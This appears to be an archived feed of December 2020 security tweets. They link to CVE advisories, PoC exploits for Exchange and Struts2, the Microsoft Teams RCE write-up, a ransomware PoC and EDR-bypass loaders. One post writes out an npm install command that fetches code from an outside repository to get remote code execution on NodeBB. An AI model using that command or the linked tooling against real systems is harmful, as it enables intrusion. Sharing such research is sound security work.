<td>Retweets: <code>290</code></td>
<td>Favorites: <code>957</code></td>
</table></tr>

---

# bugbounty_tips
**https://twitter.com/bugbounty_tips/status/1337943328084508673 _at 2020-12-13 02:12:01_**
<blockquote>
Server-Side Request Forgery(SSRF) exploitation mindmap by @hackerscrolls:

High resolution: https://t.co/83oZAQ6D1b
XMind source: https://t.co/Wn3GGPx0P2

#infosec #cybersecurity #BugBounty https://t.co/OsFsL0IoYK
</blockquote>

* https://raw.githubusercontent.com/hackerscrolls/SecurityTips/master/MindMaps/SSRF.png
* https://github.com/hackerscrolls/SecurityTips/raw/master/MindMaps/SSRF.xmind

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>86</code></td>
</table></tr>

---

# bad_packets
**https://twitter.com/bad_packets/status/1337842704722481152 _at 2020-12-12 19:32:11_**
<blockquote>
Mass scanning activity detected from 158.58.185.55 (🇮🇷) targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext. #threatintel https://t.co/8K061aCXxQ
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>57</code></td>
</table></tr>

---

# hackerscrolls
**https://twitter.com/hackerscrolls/status/1337821232360808453 _at 2020-12-12 18:06:51_**
<blockquote>
We have combined all the tricks we know about SSRF into a single mindmap.

If we missed something, write about it in the comments!

High resolution: https://t.co/Gub9KUoiGY
XMind source: https://t.co/pAtT0WVFAY

#CyberSecurity #BugBountyTip #BugBounty https://t.co/VA0k0gT8gp
</blockquote>

* https://raw.githubusercontent.com/hackerscrolls/SecurityTips/master/MindMaps/SSRF.png
* https://github.com/hackerscrolls/SecurityTips/raw/master/MindMaps/SSRF.xmind

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>537</code></td>
<td>Favorites: <code>1463</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1337756639374450690 _at 2020-12-12 13:50:11_**
<blockquote>
Crowdsec : An open-source, lightweight agent to detect and respond to bad behaviours (an alternative of fail2ban in Go): https://t.co/OYzVVh0yDP
</blockquote>

* https://github.com/crowdsecurity/crowdsec

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>109</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1337753652715343872 _at 2020-12-12 13:38:19_**
<blockquote>
Depix : Recovers passwords from pixelized screenshots : https://t.co/SJAs7VIclv https://t.co/xcCc8eIMSi
</blockquote>

* https://github.com/beurtschipper/Depix

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>395</code></td>
</table></tr>

---

# ___ziming
**https://twitter.com/___ziming/status/1337444288150507520 _at 2020-12-11 17:09:01_**
<blockquote>
FIDO gets verified :) We formally verified the FIDO UAF protocol, and  found several issues. Our paper will appear at @NDSSSymposium 2021. Check out our analysis code at https://t.co/Gn7FBQ67tR. https://t.co/adBFp9gobM
</blockquote>

* https://github.com/CactiLab/UAFVerif

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>37</code></td>
</table></tr>

---

# steventseeley
**https://twitter.com/steventseeley/status/1337415647593107457 _at 2020-12-11 15:15:13_**
<blockquote>
I provided PoC exploits for CVE-2020-17143 and CVE-2020-17141 which demonstrate the XXE bugs against Exchange Server.

- Low privileged authentication only
- CVE-2020-17141 is interesting because its in the EWS API

https://t.co/yYB8Frzwsl
https://t.co/wmtGRPMpVB
</blockquote>

* https://srcincite.io/pocs/cve-2020-17143.py.txt
* https://srcincite.io/pocs/cve-2020-17141.py.txt

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>153</code></td>
<td>Favorites: <code>371</code></td>
</table></tr>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1336979742814134272 _at 2020-12-10 10:23:05_**
<blockquote>
#CVE-2020-17530 (S2-061) Struts2 OGNL Expression Remote Code Execution @pwntester nice find!👍 https://t.co/bbaO4FeItl
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>302</code></td>
</table></tr>

---

# peleghd
**https://twitter.com/peleghd/status/1336953893918568448 _at 2020-12-10 08:40:22_**
<blockquote>
1/n @OphirHarpaz and I patch-diffed the latest vmusrv.dll (Hyper-V vSMB) trying to figure out the root cause of CVE-2020-17095. We figured out that it was probably UAF - the Refcount of SRV_WORK_ITEM was miscomputed, leading to freeing objects from mem that are still reachable. https://t.co/WZ2K4cJNLk
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>67</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1336694698279194626 _at 2020-12-09 15:30:25_**
<blockquote>
Apache releases an update to patch a potential remote code execution #vulnerability (CVE-2020-17530) affecting Apache Struts 2.0.0 - 2.5.25.

Read more:  https://t.co/fQeH2h8ODX https://t.co/7q9U9DwrF8
</blockquote>

* http://mail-archives.us.apache.org/mod_mbox/www-announce/202012.mbox/%3CCAMopvkO3Bba_4GQ-%3D8jngryMSxDkzo2JbrCrCApEt1aQ4fRCQw%40mail.gmail.com%3E

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>38</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1336681491963781122 _at 2020-12-09 14:37:56_**
<blockquote>
CVE-2020-17144: Microsoft Exchange Remote Code Execution Vulnerability

https://t.co/texmYGydMe https://t.co/W2QkEOblD2
</blockquote>

* https://github.com/Airboi/CVE-2020-17144-EXP

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>199</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1336680827237904384 _at 2020-12-09 14:35:18_**
<blockquote>
CVE-2020-17530: Apache Struts2 Remote Code Execution Vulnerability Alert
https://t.co/3mqu9Fl0Zn https://t.co/obW1Fkmt6Z
</blockquote>

* https://github.com/ka1n4t/CVE-2020-17530

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>269</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1336676143332638720 _at 2020-12-09 14:16:41_**
<blockquote>
Baphomet Ransomware : PoC of how a ransomware works : https://t.co/lwQeLCJR9G  credits @Chungo_0 https://t.co/u84DdN4OP3
</blockquote>

* https://github.com/Sh4rk0-666/Baphomet

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>73</code></td>
</table></tr>

---

# KeyZ3r0
**https://twitter.com/KeyZ3r0/status/1336504104001052674 _at 2020-12-09 02:53:04_**
<blockquote>
Microsoft patched my first use after free vulnerability in SMBv3 this patch tuesday, assigned CVE-2020-17140(https://t.co/UVm0ChehTT), it may affect over Win7 to Win10, I take a video to show my PoC works on the Windows 10 20H2 before patch :P https://t.co/v9Lg2U5APA
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17140

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>133</code></td>
<td>Favorites: <code>477</code></td>
</table></tr>

---

# steventseeley
**https://twitter.com/steventseeley/status/1336387246795132931 _at 2020-12-08 19:08:43_**
<blockquote>
Just a heads up, CVE-2020-17141 - Microsoft Exchange Server RCE is triggerable from a low privileged user and does *not* require user interaction. On the flip side, *I* couldn't get RCE from it, only disclose files as SYSTEM and in some cases relay the ntlm SYSTEM account.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>108</code></td>
</table></tr>

---

# falconforceteam
**https://twitter.com/falconforceteam/status/1336361404736167936 _at 2020-12-08 17:26:01_**
<blockquote>
Concerned about Microsoft Teams  Remote Code Execution? 

@0xffhh wrote a detection rule to identify this behavior. Get it here!👇🏼

https://t.co/HYEBGCcvvF
</blockquote>

* https://gist.github.com/0xffhh/c805bf2c50ff233d211a1320058b6e29

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</table></tr>

---

# miketheitguy
**https://twitter.com/miketheitguy/status/1336354816549822467 _at 2020-12-08 16:59:51_**
<blockquote>
So, according to my contact with MS Support, the vulnerability called out here: https://t.co/J6RW2IlzjY, was actually assigned a CVE: CVE-2020-17091, and credited to another researcher.
</blockquote>

* https://github.com/oskarsve/ms-teams-rce/blob/main/README.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>3</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1336333038754484225 _at 2020-12-08 15:33:18_**
<blockquote>
New level of RCE in Microsoft Teams -- "Important, Spoofing" : https://t.co/Ib0zID9mRw https://t.co/AGBu2u7NTj
</blockquote>

* https://github.com/oskarsve/ms-teams-rce

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>116</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1336308926791368705 _at 2020-12-08 13:57:30_**
<blockquote>
Brownie : Framework to rapidly prototype DLL Hijacks : https://t.co/YeRk175SPg credits @slaeryan https://t.co/AqP44ntMwP
</blockquote>

* https://github.com/slaeryan/AQUARMOURY/tree/master/Brownie

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>219</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1336307865099780096 _at 2020-12-08 13:53:17_**
<blockquote>
Shellycoat : Aids in bypassing User-Mode hooks utilised by AV/NGAV/EDR/Sandboxes/DLP : https://t.co/ZVgj3xQhpJ credits @slaeryan
 
Wraith : A stealthy native loader to deliver Stage-1/Beaconing implant OR Stage-2/Post-Ex RAT in-memory  : https://t.co/8Hz3yCd72w https://t.co/i4s7lpFsKO
</blockquote>

* https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat
* https://github.com/slaeryan/AQUARMOURY/tree/master/Wraith

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>37</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1336301613309292545 _at 2020-12-08 13:28:26_**
<blockquote>
Hacking in an epistolary way : Implementing kerberoast in pure VBA : https://t.co/bJwU5NUy6i credits @TheXC3LL

Follow-up --&gt; Shedding light on creating VBA macros : https://t.co/y8mZgoN1G3 

Writing a VBA macro to detect EDR hooks : https://t.co/4W4GFgTWpD
</blockquote>

* https://adepts.of0x.cc/kerberoast-vba-macro/
* https://adepts.of0x.cc/vba-tools/
* https://gist.github.com/X-C3LL/7bb17ecf01f59f50ad52569467af68d6

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>33</code></td>
</table></tr>

---

# numanturle
**https://twitter.com/numanturle/status/1336253674654490624 _at 2020-12-08 10:17:57_**
<blockquote>
Nodebb Authenticated Remote Code Execution Vulnerability

Status : fixed
npm install ARGV1@ARGV2 --save
https://t.co/7yjxZtnj83

ARGV1 = git+https://
ARGV2 = https://t.co/aICrsRlaRO
npm install git+https://@github.com/numanturle/nodebb-plugin# --save

https://t.co/NyKi99Jkeo
</blockquote>

* https://docs.npmjs.com/cli/v6/commands/npm-install#synopsis
* http://github.com/numanturle/nodebb-plugin#
* https://www.youtube.com/watch?v=5i5zwpJcYts

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>70</code></td>
</table></tr>

---

# tomwarren
**https://twitter.com/tomwarren/status/1336251506576777218 _at 2020-12-08 10:09:20_**
<blockquote>
A security researcher discovered a  zero-click remote code execution flaw in Microsoft Teams. The Microsoft response to a serious security problem was incredibly weak for a product used by 115 million people daily https://t.co/77mKZhx2yd https://t.co/Cps9Lz5aAy
</blockquote>

* https://github.com/oskarsve/ms-teams-rce/blob/main/README.md

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>73</code></td>
</table></tr>

---

# campuscodi
**https://twitter.com/campuscodi/status/1336217448962375680 _at 2020-12-08 07:54:00_**
<blockquote>
Zero-click, wormable, cross-platform remote code execution in Microsoft Teams

"The bugs have been fixed since the end of October, 2020"

https://t.co/Y6yPgJ56lc https://t.co/syhjpTOesZ
</blockquote>

* https://github.com/oskarsve/ms-teams-rce/blob/main/README.md

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>152</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1336102953866973185 _at 2020-12-08 00:19:02_**
<blockquote>
RT @EricLengyel: The Terathon C++ Math Library has been GPL'd and is available on GitHub:

https://t.co/26Wbr2GWhX

It has classes for vect…
</blockquote>

* https://github.com/EricLengyel/Terathon-Math-Library

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# EricLengyel
**https://twitter.com/EricLengyel/status/1336084679934369792 _at 2020-12-07 23:06:25_**
<blockquote>
The Terathon C++ Math Library has been GPL'd and is available on GitHub:

https://t.co/26Wbr2GWhX

It has classes for vectors, matrices, quaternions, and a bunch of geometric algebra types. It has special code for zero-cost swizzling syntax as described in my GDC 2018 talk. https://t.co/y1NejScbi5
</blockquote>

* https://github.com/EricLengyel/Terathon-Math-Library

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>420</code></td>
</table></tr>

---

# bad_packets
**https://twitter.com/bad_packets/status/1336020860709158912 _at 2020-12-07 18:52:49_**
<blockquote>
Ongoing mass scanning activity detected from 156.96.117.185 (🇺🇸) targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext. 

Ports targeted:
443
7443
8443
9443
10443
50443
60443
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>45</code></td>
</table></tr>

---

# GuidoVranken
**https://twitter.com/GuidoVranken/status/1336005623671091202 _at 2020-12-07 17:52:17_**
<blockquote>
Lots of bugs found with and by Cryptofuzz lately; this is about 2 months worth, doesn't include bugs found for clients, and more is to be announced. It turns out that ECDSA implementations especially are prone to non-conformism and other bugs.

https://t.co/ZZoWXZOD8u https://t.co/RxL7LGgY4t
</blockquote>

* https://github.com/guidovranken/cryptofuzz

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>175</code></td>
</table></tr>

---

# nickdothutton
**https://twitter.com/nickdothutton/status/1335999947775356930 _at 2020-12-07 17:29:43_**
<blockquote>
Zero-click, wormable, cross-platform remote code execution in Microsoft Teams. A great indication of just how poorly designed modern applications are. https://t.co/JjGnWLfroq
</blockquote>

* https://github.com/oskarsve/ms-teams-rce

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>170</code></td>
</table></tr>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1335950466794938372 _at 2020-12-07 14:13:06_**
<blockquote>
"Important, Spoofing" - zero-click, wormable, cross-platform remote code execution in Microsoft Teams https://t.co/YjUebtZMXs
</blockquote>

* https://github.com/oskarsve/ms-teams-rce/blob/main/README.md

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>35</code></td>
</table></tr>

---

# ptswarm
**https://twitter.com/ptswarm/status/1335945761574563841 _at 2020-12-07 13:54:24_**
<blockquote>
✨New Article: Vulnerabilities in McAfee ePolicy Orchestrator

🐞Unauth RCE chain via CSRF + SSRF + MSSQL MiTM server
🐞Post-auth RCE via ZipSlip with Windows Defender bypass
🐞Reflected XSS

CVE-2020-7318 assigned, research by Mikhail Klyuchnikov

https://t.co/PSDun0mrIh https://t.co/958AWlwPrb
</blockquote>

* https://swarm.ptsecurity.com/vulnerabilities-in-mcafee-epolicy-orchestrator/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>232</code></td>
</table></tr>

---

# freddyb
**https://twitter.com/freddyb/status/1335920831675965440 _at 2020-12-07 12:15:21_**
<blockquote>
Remote Code Execution in Microsoft Teams (through AngularJS template injection &amp; Electron) rated as "important, spoofing". 

Uh. What?

https://t.co/cXtuGQhw0B #importantspoofing
</blockquote>

* https://github.com/oskarsve/ms-teams-rce

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>55</code></td>
</table></tr>

---

# pentest_swissky
**https://twitter.com/pentest_swissky/status/1335885503741243392 _at 2020-12-07 09:54:58_**
<blockquote>
Zero-click remote code execution in Microsoft Teams https://t.co/GHPUGmFjtr #importantspoofing
</blockquote>

* https://github.com/oskarsve/ms-teams-rce/blob/main/README.md

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>106</code></td>
</table></tr>

---

# Dinosn
**https://twitter.com/Dinosn/status/1335828509311295489 _at 2020-12-07 06:08:29_**
<blockquote>
zero-click, wormable, cross-platform remote code execution in Microsoft Teams https://t.co/nrcCI4YaKm
</blockquote>

* https://github.com/oskarsve/ms-teams-rce/blob/main/README.md

<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>338</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1335182800933310465 _at 2020-12-05 11:22:40_**
<blockquote>
RT @z0x55g: vmware escape details:https://t.co/as0ztrnMXv
</blockquote>

* https://github.com/xairy/vmware-exploitation

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# CapeSandbox
**https://twitter.com/CapeSandbox/status/1335178714439626752 _at 2020-12-05 11:06:26_**
<blockquote>
CAPE Sandbox 2.2 is out!
    - FLARE CAPA integration
    - CERT-Polska Malduck
    - Bootstrap 4 web framework
    - lots more
    
https://t.co/p8Devp3Ued

Community instance:

https://t.co/h29RspnN8M

Huge thanks to @FireEye, @CERT_Polska_en &amp; @D00m3dR4v3n for the integration! https://t.co/v6baKe5mNp
</blockquote>

* https://github.com/kevoreilly/CAPEv2
* https://capesandbox.com

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>160</code></td>
</table></tr>

---

# z0x55g
**https://twitter.com/z0x55g/status/1335125046856192005 _at 2020-12-05 07:33:11_**
<blockquote>
vmware escape details:https://t.co/as0ztrnMXv
</blockquote>

* https://github.com/xairy/vmware-exploitation

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>195</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1334853661923667975 _at 2020-12-04 13:34:48_**
<blockquote>
RT @_rchase_: Today I'm open sourcing the code that I've made $500K off of: https://t.co/8HgUdw1DjK https://t.co/KiIcNVtMEt
</blockquote>

* https://github.com/reillychase/hostifi-mvp

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>400</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# _rchase_
**https://twitter.com/_rchase_/status/1334619345935355905 _at 2020-12-03 22:03:42_**
<blockquote>
Today I'm open sourcing the code that I've made $500K off of: https://t.co/8HgUdw1DjK https://t.co/KiIcNVtMEt
</blockquote>

* https://github.com/reillychase/hostifi-mvp

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>155</code></td>
<td>Replies: <code>81</code></td>
<td>Retweets: <code>400</code></td>
<td>Favorites: <code>3430</code></td>
</table></tr>

---

# ocornut
**https://twitter.com/ocornut/status/1334404639324835842 _at 2020-12-03 07:50:32_**
<blockquote>
"ImHex: A Hex Editor for Reverse Engineers, Programmers and people that value their eye sight when working at 3 AM" by @WerWolv w/ disassembler (10+ archs), pattern language, data analyzer https://t.co/7fFNcFIdu9 https://t.co/666ezs1CMI
</blockquote>

* https://github.com/WerWolv/ImHex

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>417</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1334377823755231232 _at 2020-12-03 06:03:59_**
<blockquote>
IOS 1-DAY HUNTING: Uncovering and exploiting CVE-2020-27950 kernel memory leak.
https://t.co/vS4WJhznyd  #Pentesting #Kernel #Exploit #CyberSecurity #Infosec https://t.co/zy0WIolmkP
</blockquote>

* https://www.synacktiv.com/publications/ios-1-day-hunting-uncovering-and-exploiting-cve-2020-27950-kernel-memory-leak.html

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>40</code></td>
</table></tr>

---

# shahrukhiqbal24
**https://twitter.com/shahrukhiqbal24/status/1334110785174335488 _at 2020-12-02 12:22:52_**
<blockquote>
My exploit PoC's for recently assigned CVE-2020-28687 and CVE-2020-28688 (Artworks Gallery 1.0 Shell Upload) are finally up and live on @ExploitDB
https://t.co/YCrECYNwlB
https://t.co/ACJG7Knmla

#infosec #hacking #Hacker #AppSec #WebApps #Pentesting #CyberSec #pentest #offsec
</blockquote>

* https://www.exploit-db.com/exploits/49166
* https://www.exploit-db.com/exploits/49167

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</table></tr>

---

# Dinosn
**https://twitter.com/Dinosn/status/1334058368726667264 _at 2020-12-02 08:54:35_**
<blockquote>
40 (!) remote code execution vulns in Micro Focus Operation Bridge Manager
https://t.co/iGC17Juv6i
</blockquote>

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>40</code></td>
</table></tr>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1333787486502305793 _at 2020-12-01 14:58:12_**
<blockquote>
CVE-2020-14418: A vulnerability in the madCodeHook library caused many security products (by e.g. Cisco, Morphisec, etc) to contain a local privilege escalation vulnerability. Discovery and analysis by @kyREcon. 

https://t.co/jhZLJ1JNvX
</blockquote>

* https://labs.nettitude.com/blog/cve-2020-14418-madcodehook-library-local-privilege-escalation/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>37</code></td>
</table></tr>

---

# pedrib1337
**https://twitter.com/pedrib1337/status/1333712867246292993 _at 2020-12-01 10:01:41_**
<blockquote>
yo dawgs I heard you like vulns so I'm dropping 40 RCE on Micro Focus Operations Bridge Manager: https://t.co/LKDKyR3SVy

A Windows privesc is included as a bonus 👇 https://t.co/qi0dvv0LYX
</blockquote>

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>168</code></td>
<td>Favorites: <code>538</code></td>
</table></tr>

---

